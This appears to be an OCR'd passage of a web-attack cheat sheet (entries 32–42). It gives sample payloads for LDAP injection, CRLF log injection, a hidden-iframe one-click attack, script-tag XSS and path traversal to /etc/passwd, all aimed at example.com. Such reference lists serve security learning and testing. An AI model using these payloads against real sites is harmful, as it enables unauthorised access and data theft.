 #### 32. HTTP Verb Tampering
```http
OPTIONS / HTTP/1.1
TRACE / HTTP/1.1
```

#### 33. HTML Injection
```html
http://example.com/index.php?input=<h1>Hacked</h1>
```

#### 34. LDAP Injection
```plaintext
http://example.com/index.php?user=*)(|(cn=admin)(password=*))(&(user
```

#### 35. Log Injection
```http
http://example.com/index.php?input=\r\nInjectedLogEntry
```

#### 36. Man-in-the-browser Attack
```plaintext
Inject malicious JavaScript into the browser
```

#### 37. Man-in-the-middle Attack
```plaintext
Intercept and modify HTTP traffic
```

#### 38. One-Click Attack
```html
<iframe src="http://example.com/perform-action" style="display:none;"></iframe>
```

#### 39. Parameter Delimiter
```plaintext
http://example.com/index.php?param1=value1;param2=value2
```

#### 40. Page Takeover
```html
<script>alert('Page Takeover')</script>
```

#### 41. Path Traversal
```http
http://example.com/index.php?file=../../../../etc/passwd
```

#### 42. Reflected DOM Injection
```javascript
http://example.com/index.php?input=<script>document.write('Hacked')</script>
```
